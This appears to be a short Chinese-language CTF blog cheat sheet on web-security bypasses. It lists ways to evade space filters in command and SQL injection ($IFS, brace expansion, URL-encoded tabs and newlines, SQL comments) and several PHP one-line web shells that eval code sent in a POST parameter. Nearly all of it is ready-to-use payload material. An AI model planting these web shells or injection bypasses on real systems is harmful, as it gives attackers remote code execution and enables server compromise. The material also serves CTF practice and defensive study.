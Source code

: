 ```yaml
---
title: 常用bypass（待更新）
description: 我是菜鸡
abbrlink: ef088674
date: 2022-10-17 21:01:13
cover: false
tags:
  - CTF-Web
categories:
  - CTF
  - Web安全
typora-root-url: ..
---
```






# 空格

```
$IFS ${IFS}  $IFS$9
<  
>
<>
{,}
%20(空格的url编码)
%09(tab的url编码)
%0a,%0b,%0c,%0d,%a0

/**/   SQL中
括号括起来   SQL中
```

# 一句话木马

### 常规的一句话木马:

```php
<?php eval(@$_POST['a']); ?>
    
//php字符被过滤时:
<?=eval($_POST['a'])?>
```

## php短标签

```
<?=@eval($_POST['a']);?>
```

